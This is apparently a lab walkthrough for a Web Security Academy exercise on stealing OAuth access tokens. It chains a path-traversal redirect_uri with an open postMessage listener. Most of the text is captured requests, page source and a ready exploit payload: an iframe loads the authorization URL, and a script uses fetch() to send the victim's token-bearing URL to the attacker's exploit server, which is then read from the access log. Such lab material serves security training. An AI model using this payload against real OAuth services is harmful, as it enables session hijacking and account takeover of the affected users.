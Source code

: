 ```bash

HTTP/1.1 302 Found

Go to:

https://ac0a1fb51fea71bec022b90800bd007b.web-security-academy.net/post?postId=6

View source
Find:

<iframe onload='this.height = this.contentWindow.document.body.scrollHeight + "px"' width=100% frameBorder=0 src='/post/comment/comment-form#postId=6'></iframe>

Go to: HTTP history
Find:

GET /post/comment/comment-form HTTP/1.1

Response:

<script>
	parent.postMessage({type: 'onload', data: window.location.href}, '*')
	function submitForm(form, ev) {
		ev.preventDefault();
		const formData = new FormData(document.getElementById("comment-form"));
		const hashParams = new URLSearchParams(window.location.hash.substr(1));
		const o = {};
		formData.forEach((v, k) => o[k] = v);
		hashParams.forEach((v, k) => o[k] = v);
		parent.postMessage({type: 'oncomment', content: o}, '*');
		form.reset();
	}
</script>

Find:

GET /auth?client_id=bk91tnjnh5l2a8f6qbk27&redirect_uri=https://ac0a1fb51fea71bec022b90800bd007b.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=1615567977&scope=openid%20profile%20email 

Right-click request -> Copy URL

Go to: "Go to exploit server"
Insert copied request into an iframe tag and append "/../post/comment/comment-form" to the "redirect_uri" + addEventListener
Body:

<iframe src="https://oauth-ac4c1ff01f667116c06ab91202d1004d.web-security-academy.net/auth?client_id=bk91tnjnh5l2a8f6qbk27&redirect_uri=https://ac0a1fb51fea71bec022b90800bd007b.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=1615567977&scope=openid%20profile%20email"></iframe>

<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>

Store
Deliver exploit to victim
Access log
Find the new-found "access_token"

```